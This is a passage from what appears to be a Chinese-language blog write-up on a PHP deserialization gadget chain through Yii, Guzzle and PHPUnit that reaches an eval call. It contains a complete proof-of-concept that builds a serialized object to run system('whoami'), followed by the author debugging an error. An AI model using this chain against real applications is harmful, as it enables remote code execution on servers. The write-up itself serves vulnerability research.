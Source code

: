 在 vendor\phpunit\phpunit\src\Framework\MockObject\MockTrait.php 中找到了相应的方法

```
public function generate(): string
{
    if (!\class_exists($this->mockName, false)) {
        eval($this->classCode);
    }
    return $this->mockName;
}
```

修改 poc

```
<?php
namespace PHPUnit\Framework\MockObject{
    class MockTrait {
        private $classCode = "system('whoami');";
        private $mockName = "anything";
    }
}
namespace GuzzleHttp\Psr7 {
    use PHPUnit\Framework\MockObject\MockTrait;
    class FnStream {
        var $_fn_close;
        function __construct() {
            $this->_fn_close = array(
                new MockTrait(),
                'generate'
            );
        }
    }
}
namespace yii\db {
    use GuzzleHttp\Psr7\FnStream;
    class BatchQueryResult {
        // 需要控制的成员属性
        private $_dataReader;
        function __construct() {
            $this->_dataReader  = new FnStream();
        }
    }
    $b = new BatchQueryResult();
    file_put_contents("poc.txt", serialize($b));
}
```

再次尝试, 报错了！！！这是修复了吗??，低版本也？  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/WdbaA7b2IE6D8InhXuGX2q6Cbw7zhMJLV6NrlibNZvHs5ymxPQWjOFoLRZJPF17NHtg9X4wvUFLgZ8RQdS32K8w/640?wx_fmt=png)

但是 phpinfo() 可以正常执行. 当我再回去看的时候. 我发现我漏掉了最底下的报错信息！！！。

先将 poc 复原到 phpinfo(); 可以看到虽然 throw 了, 但 phpinfo 正常执行. 不清楚是什么原因。我的猜想是: phpinfo 回显内容过大触发了分段传输. 我会继续研究这个问题.
